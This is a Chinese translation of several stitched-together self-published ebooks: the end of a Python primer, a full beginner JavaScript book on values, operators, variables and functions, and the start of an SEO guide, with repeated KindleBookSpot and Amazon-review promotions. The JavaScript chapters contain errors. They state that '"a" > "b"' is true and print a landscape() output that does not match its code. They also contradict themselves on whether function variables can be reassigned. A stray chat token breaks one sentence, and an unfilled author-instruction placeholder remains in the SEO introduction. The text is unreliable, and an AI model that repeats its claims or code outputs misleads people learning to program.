这些错误发生在 Python 解释器无法执行某个操作时，尽管它知道应该做什么。一个好的例子是在离线时运行 Google 搜索：机器知道该做什么但无法完成。

### 逻辑错误

逻辑错误极难找到。此外，它们也是你会遇到的最常见错误。受逻辑错误影响的 Python 程序仍可运行。然而，它们可能会崩溃或产生意外结果。

你可以使用调试器在程序中查找和解决逻辑错误。

### 语法错误

这也许是最基本的错误类型。语法错误发生在 Python 解释器无法理解代码时。据程序员说，语法错误大多数情况下是致命的——包含此错误的代码无法执行。

语法错误通常由拼写错误、错误的参数或错误的缩进引起。这意味着每当你遇到语法错误时，都应检查代码中是否存在这些错误。

## 结论

再次感谢你下载本书！

我希望本书能够帮助你掌握 Python 的基础知识。

下一步是使用这种强大的计算机语言创建自己的程序。

最后，如果你喜欢这本书，我想请你帮个忙，你能为这本书在亚马逊上留下评论吗？将不胜感激！

点击此处为本书在亚马逊上留下评论！

同时请务必订阅我的技术和编程通讯，以获取免费书籍并了解更多编程知识。点击此处。

谢谢并祝好运！

点击此处获取使用 Bluehost 设置 WordPress 网站的分步说明。

## 奖励：由我提供更多免费书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

你将获得的一切，如果你认真想提升编程技能，将会很有用。我将提供：

- 我撰写的更多书籍
- 我如何在创纪录的时间内学会编程
- 与编程相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

如果还没有，请务必查看我的新网站，[KindleBookSpot.com](https://KindleBookSpot.com)。这是一个我一直在进行的项目，我真的希望它对我的读者有价值。我创建该网站是因为我想为你们提供一种更简单的方式，在一个地方找到最热门的 Kindle 折扣书籍。以下是我的网站的一些详情：

- 最畅销免费 Kindle 书籍的列表
- 折扣小说和非小说书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书籍

该网站不仅仅面向读者，也是新兴作者在成为畅销书之前推广新书的地方。因此，如果你想推广自己的书籍，请查看我的网站，[KindleBookSpot.com](https://KindleBookSpot.com)。

我希望这个网站对你有用，也希望在那里见到你！

***[订阅我们在 KindleBookSpot 的不断增长的社区，以接收最佳书籍打折和免费的通知。](https://KindleBookSpot.com)***

# JavaScript 训练营

## 在 2 周内学习 JavaScript 编程基础

在 [KindleBookSpot.com](https://KindleBookSpot.com) 获取更多免费和特价书籍

## 目录

- 引言
- 第 1 章：JavaScript 和代码
- 第 2 章：JavaScript 的不同方面
- 第 3 章：JavaScript 中的程序结构
- 第 4 章：关于 JavaScript 中函数的更多信息
- 结论

## 引言

我谨向你表示感谢并祝贺你下载了本书，*在 2 周内学习 JavaScript 编程基础*。

本书包含经过验证的步骤和策略，教你如何掌握这种强大语言的基础知识。

这本电子书将帮助你在两周内掌握 JavaScript 的基础知识。为了实现这一点，它专注于这种编程语言最重要的元素。使用本书时，你不会阅读任何无关材料。这意味着你将在 14 天内学习成为熟练 JavaScript 用户所需学习的内容。

在这本书中你将学习：

- JavaScript 是什么
- 如何使用 JavaScript
- 常见的 JavaScript 数据
- 以及更多！

再次感谢你下载本书，希望你喜欢！

## 开始之前... 奖励：由我提供更多免费书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

你将获得的一切，如果你认真想提升编程技能，将会很有用。我将提供：

- 我撰写的更多书籍
- 我如何在创纪录的时间内学会编程
- 与编程相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

## 第 1 章：JavaScript 和代码

### *JavaScript – 一般信息*

JavaScript 于 1995 年推出，作为向网页添加程序的方法。当时，它专门用于名为 Netscape Navigator 的网络浏览器。由于 JavaScript 的成功，所有主要浏览器现在都支持它。这种语言允许程序员创建现代网页程序——无需为每个操作重新加载网页即可交互的程序。另一方面，传统网站也使用 JavaScript 来提供不同类型的功能和交互性。

此时，你应该知道 JavaScript 与 Java（即当今领先的编程语言之一）无关。JavaScript 在存在的第一年被称为“Mocha”和“LiveScript”。然而，由于 Java 编程语言极受欢迎，JavaScript 的所有者决定采用其名称。这是一种营销策略，旨在利用 Java 所享有的流行度。


## 代码 – 概述

代码是构成计算机程序和 Web 应用程序的文本。这本电子书包含大量代码，所以你应该熟悉它们。计算机专家声称，编写代码和阅读代码是成为程序员的重要方面。因此，你应该阅读并理解本书中的代码。如果你只是匆匆浏览代码示例，就会错失绝佳的学习机会。

初学者在分析代码时可能会遇到困难。但是，如果他们仔细阅读说明，他们一定会理解 JavaScript 是如何工作的。你最好使用 JavaScript 解释器来尝试代码示例。这样，你就能即时了解代码在编译为程序后是什么样子。

## 第 2 章：JavaScript 的不同方面

### 数据与比特

数据构成了数字世界。如果你“访问”计算机内部的世界，你会看到一样东西：数据。你可以读取、编辑和生成数据。每当你保存新数据时，数据都会以比特序列的形式存储。这就是存储的数据具有相似外观和特征的原因。

在编程中，比特是任何具有两个值（通常用 1 和 0 表示）的事物。你可以将任何数据简化为一系列 1 和 0。这个过程被称为数据到比特的转换。

### 值

典型的计算机系统涉及数十亿个比特。这意味着处理数据可能会非常令人困惑。如果你想处理如此庞大的信息量，就必须将其分成更小的块。在 JavaScript 中，这些信息块被称为值。尽管所有值都由比特组成，但它们的类型和功能各不相同。JavaScript 支持六种类型的值，即：字符串、数字、函数、对象、undefined 值和布尔值。

要生成一个值，你只需指明它的名称。这个过程简单容易。你无需收集材料或支付任何费用。只要指明一个值的名称，然后“砰”的一声，你就拥有它了。

本章将介绍 JavaScript 语言的基本元素（即运算符和值类型）。这些元素可以与 JavaScript 中的值进行交互。

现在，让我们来谈谈不同类型的值。

### 数字

属于这种类型的值是…… 你猜对了：数值。在编写 JavaScript 应用程序时，你必须使用以下格式：

    <number>

例如，假设你在 JavaScript 程序中输入了这个值：99。这将在你的机器内存中为数字 99 创建一个比特序列。

JavaScript 语言使用 64 位来存储每个数字值。64 位可以创建的模式数量是有限的，因此你可以用它们表示的数字也是有限的。对于 x 位十进制数字，你可以表示的数字数量等于 10^x。同理，由于你有 64 位，你最多可以表示 2^64 个数字值。

以前，计算机内存非常小，人们不得不用 8 位或 16 位的集合来表示数字值。由于内存不足，用户在使用 JavaScript 时经常遇到“数据溢出”。然而如今，即使是基本的台式机也拥有大量内存。这意味着你可以轻松使用 64 位序列——你不再需要担心数据溢出了。

数字值还可以存储负整数。在这里，其中一个位表示该值的符号（“+”或“−”）。此外，JavaScript 支持非整数（即小数）。为了实现这一点，一些位存储数字值中小数点的位置。

你可以使用句点来编写小数和分数。下面是一个例子：

    99.99

另一方面，对于极大或极小的数字，你可以添加“e”来使用科学计数法。只需在后面跟上正确的指数即可。下面是一个例子：

    9.999e9 = 9.999 x 10^9

使用整数值（也叫做整数）进行的计算是 100% 准确的。然而，使用分数进行的计算则不然。例如，“π”的值无法用有限的小数位精确表示。许多数值会因为只有 64 位来存储它们而失去精度。如果你想避免与分数相关的问题，你必须记住这些数字只是估算值。不要把它们当作精确值。

### 算术运算

这就是你对数值进行的操作。通常，算术运算（如加法、除法、减法等）使用两个数值来生成一个新值。下面是一个用 JavaScript 语言编写的示例算术运算：

    10 + 4 * 5

“*”和“+”符号被称为“运算符”。“+”表示加法，而“*”表示乘法。你可以通过在两个数值之间放置运算符来生成一个新的数值。需要注意的是，JavaScript 中的算术运算遵循运算符优先级（也称为运算顺序）。在这里，你应该按以下顺序执行运算：括号、指数、乘/除、加/减。如果你将运算符优先级应用于上面给出的示例，10 将被加到 4 * 5 的乘积上。

你可以使用括号来修改运算顺序。例如：

    (10 + 4) * 5

在 JavaScript 语言中，“-”表示减法，“/”表示除法。你不必担心运算符优先级。但是，如果你不确定，就可以直接在代码中添加括号。

### 特殊数字

在使用 JavaScript 时，你会遇到三个被称为数字的值，即使它们的行为并不像数字。这些特殊的值是：Infinity、-Infinity 和 NaN。-Infinity 和 Infinity 分别表示负无穷大和正无穷大。一般来说，你不应该相信基于无穷大的计算。这些计算在数学上并不可靠。

另一方面，NaN 的意思是“不是数字”。如果你执行产生不精确或无意义结果的算术运算，你就会得到这个特殊值。例如，如果你将零除以零（即 0 / 0），就会得到 NaN。

### 字符串

你应该使用字符串来表示基于文本的信息。你应该使用引号（即单引号或双引号）将字符串括起来。看看下面的例子：

    ‘Five little monkeys’

    “I’m riding a bicycle”

创建字符串时，请确保你的引号保持一致。如果你使用双引号开始一行，请使用同样的符号结束该行。

一般来说，你可以使用引号括起几乎任何内容。在一对引号之间放入某些内容，JavaScript 语言就会将其转换为一个可用的字符串值。

### 如何“转义”字符

有时你必须在语句中添加特殊字符。例如，在编写文本字符串时，你必须添加“换行符”（即按下 Enter 键后得到的字符）。目前，JavaScript 要求程序员在带引号的文本中添加反斜杠。通过放置反斜杠，你是在告诉计算机下一个字符具有特殊功能或含义。这个过程被称为“转义字符”。

反斜杠后面的引号将被视为该行的一部分：它们不会终止字符串。如果你在反斜杠后面放置“\n”，则会在语句中添加一个换行符。同样，由反斜杠引入的“\t”将产生一个“制表符”字符（即按下 Tab 键后得到的字符）。下面是一个简单的例子：

> “I’m the first one\nYou are the last”

如果你执行上面给出的字符串，你将得到以下结果：

*I’m the first one*

*You are the last*

在某些情况下，你想在代码中使用“普通”的反斜杠。你不希望它成为一种特殊工具。你可以通过在另一个反斜杠前面放置一个反斜杠来实现这一点。也就是说，你正在转义一个反斜杠，以便将其变成普通字符。分析下面的示例：

> “You should use \t to add a tab character in your statements”

一旦编译并执行，你将得到：

*You should use \t to add a tab character in your statements*

字符串不是数字，因此你不能对它们执行数学运算。但是，你可以在字符串上使用“+”来拼接（即组合）它们。下面是一个示例：

> “Jav” + “aSc” + “ript”

由于“+”符号，上面给出的分段字符串会产生：*JavaScript*。

### 一元运算符


本节将介绍非符号运算符。讨论开始时，我们先谈谈一个名为“typeof”的运算符。该运算符可帮助你识别任意值的类型。请看以下示例：

```
console.log(typeof 4.5)
// → number
console.log(typeof "x")
// → string
```

上面给出的示例代码使用 console.log 来显示使用“typeof”将得到的结果。每当你运行这类代码时，应该会立即在计算机屏幕上看到该值。

上一节介绍的运算符需要两个值，而 typeof 只需要一个值。需要两个值的运算符称为二元运算符。而只处理单个值的运算符则称为一元运算符。

## 布尔值

通常，程序员需要能够区分两个选项的值，例如“开”或“关”，以及“是”或“否”。为此，JavaScript 语言支持一种称为布尔值（Boolean）的值类型（它只有两个值：true 和 false）。

## 比较

你可以使用以下方法创建布尔值：

```
console.log(3 > 2)
// → true
console.log(3 < 2)
// → false
```

< 和 > 字符分别是用于表示“小于”和“大于”的常用符号。这两个符号都属于“二元运算符”类别。如果你在代码中使用它们，将得到一个布尔值，表示它们是否为真。你可以用同样的方法比较字符串。

```
console.log("Aardvark" < "Zoroaster")
// → true
```

字符串按字母顺序排列。此外，小写字母比大写字母“更重要”。这意味着 “a” > “b” 为真。JavaScript 在排列字符串时也会包含特殊字符（例如 -、!、? 等）。比较过程遵循 Unicode——它为编程中可能需要的每个字符分配一个数字。这一功能非常有用，因为它允许你通过将字符串转换为数字序列来存储它们。比较字符串值时，JavaScript 从左到右工作，逐个检查每个字符的数字序列。

你也可以使用类似运算符，例如 <=（即小于或等于）、>=（即大于或等于）、!=（即不等于）和 ==（即等于）。请看以下示例：

```
console.log("Itchy" != "Scratchy")
// → true
```

在 JavaScript 中，只有一个值不等于自身。这个值是 NaN，即“非数字”。

```
console.log(NaN == NaN)
// → false
```

最初，NaN 用于表示非理性计算的结果。因此，它不能等于其他非理性计算的结果。

## 逻辑运算符

本节将介绍可以应用于布尔值本身的不同运算。JavaScript 语言提供三个运算符，即：and、not 和 or。你可以使用这些运算符对布尔值执行逻辑过程。因此，它们被称为“逻辑运算符”。

### a) 与（and）

&& 符号表示“与”。该运算符是二元的。此外，仅当你处理的两个值都为 true 时，它才提供“true”结果。以下是一些示例：

```
console.log(true && false)
// → false
console.log(true && true)
// → true
```

### b) 或（or）

如果你想使用“或”运算符，应使用“||”符号。“或”会在你处理的值之一为 true 时给出“true”结果。请看下图：

```
console.log(false || true)
// → true
console.log(false || false)
// → false
```

### c) 非（not）

必须使用“!”（即感叹号）来表示“非”运算符。该逻辑运算符是一元的：你可以对单个值使用它。然而，“非”的独特之处在于它会反转你赋给它的值。例如，!false 会得到 true，而 !true 会得到 false。

## 三元运算符

该逻辑运算符作用于三个不同的值。它被称为条件运算符，要求你在脚本中使用“?”和“:”。以下代码将展示如何使用它：

```
console.log(true ? 1 : 2); // → 1
console.log(false ? 1 : 2); // → 2
```

放在“?”左侧的值决定将选择其余值中的哪一个。如果它为“true”，则选择第一个选项。然而，如果它为 false，则选择第二个选项。

## 未定义值

JavaScript 语言支持两个特殊值来表示缺少有用的值。这些特殊值是“undefined”和“null”。尽管这两个值被视为合法值，但它们不携带任何信息。

通常，如果 JavaScript 操作无法生成有用的值，它会输出“undefined”，仅仅因为它需要生成一个值。

据专家称，null 和 undefined 之间的差异是 JavaScript 设计者的一个错误。这意味着这两个值在大多数时候被视为相等。如果你必须处理这些值，只需将它们视为脚本中可以互换的元素。

## 如何自动转换类型

你可能知道，JavaScript 接受任何应用，甚至是那些执行不寻常操作的应用。下面列出的表达式将清楚地展示这一概念：

```
console.log(8 * null)
// → 0
console.log("5" - 1)
// → 4
console.log("5" + 1)
// → 51
console.log("five" * 2)
// → NaN
console.log(false == 0)
// → true
```

如果你将运算符应用于错误的值类型，JavaScript 会自动将所述值转换为正确的类型。JavaScript 使用一组有时出乎意料或不合需要的规则来执行此功能。程序员将这一自动过程称为“类型强制转换”。因此，第一行中的 null 被转换为 0，而下一行中的“5”被转换为 5（即字符串到数字的转换）。然而，第三行尝试使用“+”号连接这些值，因此 1 变成了“1”（数字到字符串的转换）。

如果你将非数字值（“six”或 undefined）转换为数字，结果将得到 NaN。对 NaN 值应用数学运算会产生更多 NaN，因此如果你在意外或不合需要的情况下得到这个值，请检查代码中是否有不需要的类型转换。

## 第 3 章：JavaScript 中的程序结构

本章将教你“实际编程”。你将使用超越目前所用名词和短语的 JavaScript 命令。请仔细研究本材料，因为它将帮助你在两周内掌握 JavaScript 的基础知识。

## 语句和表达式

在上一章中，你通过对现有值应用运算符来生成新值。看起来值的创建是 JavaScript 程序最重要的部分。然而，这只是这门强大语言的一小部分。

代码中创建值的部分称为“表达式”。因此，你按字面写出的任何值（例如 99 或“九十九”）都属于这一类。即使你把表达式括在括号中，它们仍然被称为表达式。此外，即使你使用一元、二元或三元运算符，表达式仍然是表达式。

上一段强调了基于语言的编程接口的优势。表达式在任何人类语言中都充当子句——它们内部可以包含其他表达式。这意味着你可以混合 JavaScript 表达式来表达令人困惑的计算。

如果表达式等同于子句，那么 JavaScript 语句就等同于完整句子。基本上，JavaScript 程序只是一个语句集合。

最基本的语句类型是一个值后跟一个分号。基于这一原则，我们可以创建这个简单的程序：

```
0;
```

```
false;
```

在 JavaScript 中，上面给出的示例被视为一个完整程序。不过，它是一个毫无价值的程序。语句只有在做了影响其他事物的事情时才有用（例如在屏幕上显示一些字符、改进编程

环境，等等）。上面显示的两个语句只是创建了两个值（即 0 和 false）。它们不会改变或改进任何东西。如果你执行这个程序，你不会观察到任何显著的现象。

## 变量

JavaScript 程序如何维持自身？它们如何存储事物？你已经看到如何使用旧值创建新值。然而，这个过程不会修改既有的值。你还需要立即使用产生的<|message|>值，否则它们就会简单地消失。为了捕获和保存值，JavaScript 提供了变量。

```
var example = 3 * 3;
```

在这个例子中，var（JavaScript 中的一个关键字）表示该行将创建一个变量。关键字后面跟着变量的名称，如果你想立即赋值，则后面跟着一个“ = ”符号和你想要的表达式。

该语句生成一个名为“ example ”的变量，并用它来存储 3 * 3 的乘积。

一旦你定义了变量，你就可以在未来的 JavaScript 语句中将其名称用作普通表达式。从该“ expression ”获得的值与你在创建时赋给它的值相同。请查看以下示例：

```
var three = 3;
console.log(three * three);
// -> 9
```

命名变量时，你可以使用任何不是关键字的词（例如 var）。你可以在变量名中包含数字，但不能用数字作为初始字符。例如，programming1 是有效的，但 1programming 不是。此外，你不能在命名变量时使用空格。就特殊字符而言，你只能使用美元符号（即 $）和下划线（即 _）。JavaScript 不允许你在变量名中使用标点符号。

你可以更改分配给变量的值。在 JavaScript 中，你只需在任何变量上使用“ = ”符号即可为其赋予新值。

```
var taste = "bitter";
console.log(taste);
// -> bitter
taste = "sweet";
console.log(taste);
// -> sweet
```

一般来说，你应该把变量想象成触手而不是容器。变量抓取值，它不包含它们。这意味着多个变量可以指向同一个值。

让我们分析一个简单的例子。你需要生成一个变量来记住约翰尼欠你的金额。当他付给你 $50 时，你必须为现有变量分配一个新值。请查看下面的行：

```
var JohnnysDebt = 200;
JohnnysDebt = JohnnysDebt - 50;
console.log(JohnnysDebt);
// -> 150
```

如果你在不分配值的情况下创建变量，它将被视为为空。如果你询问它包含的值，它会给你“ undefined ”。

JavaScript 允许你在一条 var 语句中包含多个变量。使用此功能时，你应该用逗号分隔变量。下面是一个示例：

```
var three = 3, four = 4;
console.log(three + four);
// -> 7
```

## JavaScript 中的保留字

如前所述，在命名变量时你不能使用关键字。然而，还有其他你不能用作变量名的词，因为 JavaScript 已为未来发展保留了它们。以下是这种脚本语言中的一些保留字：

- in, do, let, if, new, try, with, case, void, with, while, false, yield, extends, delete, default, const, debugger, class, break, finally, null, private, return, import, protected, switch, super, interface, instanceof, throw, implements

请记住，在定义变量时你不能使用上面给出的词。如果你忘记了这个简单的规则，在使用 JavaScript 程序时可能会遇到问题。

## JavaScript 环境

术语“environment”指的是活动值和变量的集合。基本上，在启动 JavaScript 程序时，环境不能为空。环境保存与语言本身相关的变量，并且通常，它们具有允许与计算机系统交互的变量。例如，在 Web 浏览器中，存在各种函数和变量来检查和影响当前网站并读取鼠标和键盘的输入。

## 函数

默认的 JavaScript 环境涉及函数。函数是与值链接的计算机程序片段。你可以应用这些值来激活链接的程序。例如，在浏览器环境中，alert（即一个变量）包含一个显示对话框的函数。下面是一个示例：

```
alert( "You are not authorized to access this page!" );
```

你可以通过在生成函数值的 JavaScript 表达式后放置括号来执行函数。通常，你会指出包含所需函数的变量的名称。通过将值括在括号中，你是将这些值分配给函数内的程序/。对于前面的示例，“alert”使用分配的字符串在 resulting 对话框中显示消息。程序员在指代分配给函数的 value/s 时使用术语“arguments”。

## “console.log”

当尝试新的字符串或语句时，你可以使用“alert”。然而，由于它要求你关闭 resulting 窗口，你可能会觉得它不方便且耗时。因为这个原因，你可能想使用本书前面各节中出现的函数：console.log。几乎所有 JavaScript 系统（例如 Node.js、Web 浏览器等）都提供此函数将参数传输到文本兼容的输出设备。

就 Web 浏览器而言，代码的输出进入 JavaScript 控制台。虽然浏览器的 GUI 的这一部分通常是隐藏的，但你可以通过按某些键来访问它（即对于 Windows 计算机，按 F12；对于 Mac 计算机，按 Command-Option-I）。如果你在查看此部分时遇到问题，你可以运行设备内搜索“developer tools”或“web console”。分析以下示例：

```
var a = 99;

console.log("one hundred minus one is", a);

// -> one hundred minus one is 99
```

如前所述，在命名变量时你不能使用句点或逗号。然而，上面给出的示例中包含一个。其原因在于 console.log 不是普通变量。它是一个 JavaScript 表达式，它从存储在“console”（它是一个变量）中的值中收集“log”信息。

## 返回值

在屏幕上写入信息和显示对话框框被称为副作用。由于这些副作用，函数在 JavaScript 语言中很重要。你也可以使用函数来生成值——在这种情况下，即使没有其副作用，函数也可能有用。例如，Math.max（一个 JavaScript 函数）接收无限数量的数值并指示其中最高的那个。下面是一个示例：

```
console.log(Math.max(1, 2, 3, 4, 5));
// -> 5
```

在 JavaScript 中，任何生成值的内容都被视为表达式。这意味着你可以在大型表达式中执行函数调用。在下面的示例中，你将使用 Math.min 函数作为“ + ”操作符的输入：

```
console.log(Math.min(1, 2) + 98);
// -> 99
```

## 第 4 章：关于 JavaScript 中函数的更多信息

在上一节中，你已经学习了如何创建和调用函数值。本章将帮助你进一步理解这个重要主题。根据专家程序员的说法，函数在使用 JavaScript 时是你的主要工具。函数是强大的工具，可以帮助你设计大型程序、最小化冗余、命名子程序并为每个子程序提供隔离。这意味着如果你想有效地使用 JavaScript，你必须掌握函数。本章将帮助你在两周内学习这种脚本语言。

许多人应用函数来定义新词汇。这意味着你可以用它们来创建单词并赋予含义。

一个平均的英语使用者词汇量约为 20,000 个词。好吧，编程语言通常没有那么多内置命令。这意味着编程中的词汇比人类语言使用的更精确。如果你想最小化冗余，你必须将自己的单词添加到 JavaScript 中并创建自己的词汇。


## 如何定义函数

定义函数就像定义普通变量一样。唯一的区别是，你赋予的值是一个函数。例如，下面的代码定义了一个名为“square”的变量。该变量指向一个函数，该函数生成任意指定数字的平方。

```
var square = function(x) {
  return x * x;
};

console.log(square(12));
// → 144
```

创建函数时，你应该用关键字“function”开始一个表达式。每个函数有两个部分：（1）主体和（2）参数/参数。函数的主体存储了在函数被调用（或执行）时想要执行的 JavaScript 语句。此外，你应该始终使用大括号括起主体（即使它只包含一条语句）。

参数另一方面，是在函数定义中列出的名称。函数可以有一个或多个参数。实际上，你甚至可以创建一个不带任何参数的函数。为了帮助你理解这个概念，让我们创建两个函数：makeNoise 和 power。

```
var makeNoise = function() {
  console.log("Pling!");
};

makeNoise();
// → Pling!

var power = function(base, exponent) {
  var result = 1;
  for (var count = 0; count < exponent; count++)
    result *= base;
  return result;
};

console.log(power(2, 10));
// → 1024
```

如你所见，makeNoise 没有任何参数。与此同时，“power”有两个（即 base 和 exponent）。

## JavaScript 中的参数和作用域

函数的参数表现得像普通变量，尽管它们从程序员那里获得初始值，而不是从它们所链接的函数那里获得。

任何函数的一个重要属性是：在其中创建的所有变量（即使是参数）都对其是局部的。这意味着，例如，power 语句中的“result”在每次调用函数时都会刷新。这些单独的重复不会相互影响。

需要注意的是，这个“局部性原则”仅适用于使用“var”定义的变量和参数。此外，你应该在函数体内定义变量和参数。在函数外部定义的变量称为全局变量，因为它可以在整个 JavaScript 应用程序中被看到和访问。如果你没有“局部”对应项，你可以从函数内部访问全局变量和参数。

下面的代码说明了这个概念。它声明并调用了两个为“x”赋值的函数。第一个函数将变量定义为局部变量。另一方面，第二个函数没有这样做。这意味着如果你在函数内部引用 x，你将指向全局 x（在示例的第一行显示）。

```
var x = "outside";

var f1 = function() {
    var x = "inside f1";
};
f1();
console.log(x);
// → outside

var f2 = function() {
    x = "inside f2";
};
f2();
console.log(x);
// → inside f2
```

这种功能有助于防止不同函数之间出现意外的引用或交互。如果 JavaScript 允许你在整个程序中共享所有变量，你将不得不花费大量时间和精力来确保名称不重复。重用变量名可能会对你的代码产生意外或不期望的效果。因此，它可能会破坏你正在处理的程序。由于这种语言将局部变量视为仅存在于各自函数内部，它可以将函数视为不同的世界。JavaScript 在你处理单个函数时不必担心整个应用程序。

## 嵌套作用域

除了定义局部和全局变量之外，JavaScript 还使用其他方法来区分不同类型的函数。例如，你可以在现有函数内创建函数。这种技术产生了多个局部性层级。

例如，下面的函数包含两个函数：

```
var landscape = function() {
  var result = "";
  var flat = function(size) {
    for (var count = 0; count < size; count++)
      result += "_";
  };
  var mountain = function(size) {
    result += "/^";
    for (var count = 0; count < size; count++)
      result += "\"";
    result += " \\";
  };

  flat(3);
  mountain(4);
  flat(6);
  mountain(1);
  flat(1);
  return result;
};

console.log(landscape());
// → __/^"""____/^_\
```

这两个函数（即 flat 和 mountain）都可以访问“result”变量，因为它们放置在声明该变量的函数内部。然而，它们无法访问彼此的变量。这意味着位于函数外部的程序环境无法访问它包含的变量。

使用过其他语言的程序员可能会认为他们可以通过使用大括号括起代码块来创建新的局部环境。然而在 JavaScript 中，只有函数可以生成新的作用域。

## *将函数用作普通值*

通常，函数变量用作程序中某一部分的名稱。你不能修改现有的函数变量：一旦你定义了它们，它们就会阻止你进行任何未来的修改。这种特性可能导致关于名称及其所指函数的混淆。

显然，函数和变量是两件不同的事情。函数值可以像典型值一样使用——你可以调用它们并将它们用于复杂表达式。你可以更改函数值的位置，将其作为函数的参数传递等。以同样的方式，包含函数的变量仍然被视为常规变量。这意味着你可以为它们赋予新值。

## 可选参数

JavaScript 语言接受下面的代码。在调用它时你不会遇到任何问题。

```
alert("Hi", "Good Morning", "How are you?");
```

官方上，“alert”函数只接受一个参数。然而，如果你使用上面的示例代码调用它，它不会抱怨。它只会接受第一个参数（即“Hi”）并忽略其余部分。

就你能为函数分配的参数数量而言，这种编程语言是“开放的”。如果你分配了太多参数，它会接受有效的参数并忽略其他参数。然而，如果你的参数不足，JavaScript 将通过为适当的参数分配“undefined”来完成你的语句。

## 结论

再次感谢你下载这本书！

我希望这本书能够帮助你在两周内学习 JavaScript 的基础知识。

下一步是开始使用这种强大的脚本语言编写自己的应用程序。

最后，如果你喜欢这本书，我想请你帮个忙，你能为这本书在亚马逊上留下评论吗？这将非常感激！

点击此处为这本书在亚马逊上留下评论！

同时请务必订阅我的技术和编程通讯，以获取你的免费书籍并了解更多编程知识。点击此处。

感谢并祝好运！

点击此处获取使用 Bluehost 设置你的 Wordpress 网站的分步说明。

## 奖励：通过我获得更多免费书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

如果你认真想提升编程技能，你将获得的一切都会对你有用。我将提供：

- 我写的更多书籍
- 我如何在创纪录的时间内学习编程
- 与编程相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

如果你还没有，请务必查看我的新网站，[***KindleBookSpot.com***](https://KindleBookSpot.com)。这是一个我一直在努力的新项目，我真的希望它对我的读者有价值。我创建这个网站是因为我想给你们一个更简单的方式在一个地方找到最热门的 Kindle 折扣书籍。以下是我的网站的一些详细信息：

- 最畅销免费 Kindle 书籍列表
- 折扣小说和非小说书籍
- 本周图书
- 精选书籍
- 在我的网站上推广你自己的书籍

这个网站不仅仅是为读者准备的，它也是一个新兴作者在新书成为畅销书之前推广新书的地方。所以如果你想推广你自己的书，请查看我的网站，[***KindleBookSpot.com***](https://KindleBookSpot.com)。

我希望这个网站对你有用，我希望在那里见到你！

[***订阅我们在 KindleBookSpot 的不断增长的社区，以便在最好的书籍打折和免费时收到通知。***](https://KindleBookSpot.com)


# SEO 训练营

## 在 2 周内学习 SEO 基础

*KindleBookSpot.com 更多免费和特价书籍*

## 目录

- 引言
- 第 1 章：什么是 SEO 以及为什么对你的网站很重要？
- 第 2 章：搜索技术的局限性
- 第 3 章：你的目标用户：搜索营销策略的起点
- 第 4 章：选择排名关键词
- 第 5 章：用户体验影响你的排名
- 第 6 章：构建你的网页链接档案
- 结论

## 引言

我要感谢你并祝贺你下载了本书《在 2 周内学习 SEO 基础》。

本书包含经过验证的步骤和策略，教你如何以正确的方式在搜索引擎结果页中获得顶级排名。

大多数业余搜索营销人员都在寻找在所选关键词中排名的最快方法。由于不必要的紧迫感，有些人使用了搜索引擎不赞成的方法。正因如此，过去许多人受到了搜索算法更新的影响。本书为你在 Google 及其他搜索引擎中排名提供正确的方法。这些是经过白帽 SEO 专业人士实践检验的搜索引擎优化基础。运用这些技巧，即使在大型算法更新推出时，你也不会经历流量的大幅下降。

（提供有关本书的任何额外信息。确保引言能够“销售”本书，因为人们在亚马逊或 Kindle 上预览时会看到它。你可以自行撰写，也可以要求你的图书撰写者来做。）

再次感谢你下载本书，希望你喜欢！

## 开始之前…… 奖励：通过我获得更多免费书籍！

感谢你阅读我的书！希望你从中获得了极大的价值。为了感谢你，我想赠送你更多免费书籍，以及与编程和技术相关的信息！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

Everything you will get will be useful to you if you’re serious about changing your programming skills. I will be offering:

- 我撰写的更多书籍
- 我如何在创纪录的时间内学会编程
- 与编程相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

## 第 1 章：什么是 SEO 以及为什么对你的网站很重要？

互联网是信息的海洋。它是由世界各地互联的计算机组成的网络。它使我们能够访问半个地球之外计算机上的信息。

然而，互联网本身是一团混乱。它充斥着满足数十亿个人需求的网页。早在早期，工程师们就在寻找一种工具，能够整理网络上的所有信息，并在最短时间内帮助人们找到所需内容。

搜索引擎就是那个工具。

这就是搜索引擎的功能。它们通过让人工智能访问网页并收集信息来“抓取”尽可能多的网页。它们将抓取的页面信息添加到索引中。当用户输入搜索查询时，搜索引擎会遍历所有已抓取的页面，并返回符合查询的页面列表。然后，它根据这些页面与用户查询的相关性对它们进行排序。

每月有数十亿人使用搜索引擎。其中一些人可能对你的网站感兴趣。为了为你的网站带来流量，你希望你的网页在目标访客的搜索结果中排名靠前。

### 什么是搜索查询？

搜索查询是搜索引擎用户的提问。他们使用搜索引擎来寻找答案。以下是人们向搜索引擎提出的三类问题：

### 我在哪里/如何找到某物的名称？

有些人使用查询来查找特定的现实世界事物或地点。一个人可能在纽约寻找二手车。他通过输入以下内容让搜索引擎查找所有关于二手车的分类广告：

> “Second-hand cars in New York City classified ads”

他发现结果太多，于是将搜索范围缩小为：

> “Second-hand Lexus in Manhattan craigslist”

### 什么、何时和何地问题

然而，大多数时候，人们使用搜索引擎来查找信息。例如，有些人使用搜索引擎来寻找作业的答案。许多人也会去搜索引擎查找与他们相关的时事新闻。与查阅电话簿相比，人们还发现通过互联网查找企业的地址和联系电话更快。

### [公司名称] 的网站是什么？

最后，人们使用搜索引擎前往网络上的特定区域。例如，有些人想去当地报纸的网站。他们不知道确切的网站地址，于是请 Google 带他们前往。

搜索引擎已成为发达国家大多数人的主要答案来源。大多数像 Google 这样的搜索引擎用户信任由算法编制的搜索结果。大多数人期望在顶部结果中找到查询的答案。如果前五个结果似乎没有问题的答案，人们往往会认为查询中使用的短语一定有问题。大多数人都会像那个在纽约寻找二手 Lexus 的人一样优化他们的搜索。

### 这对你的网站有何影响？

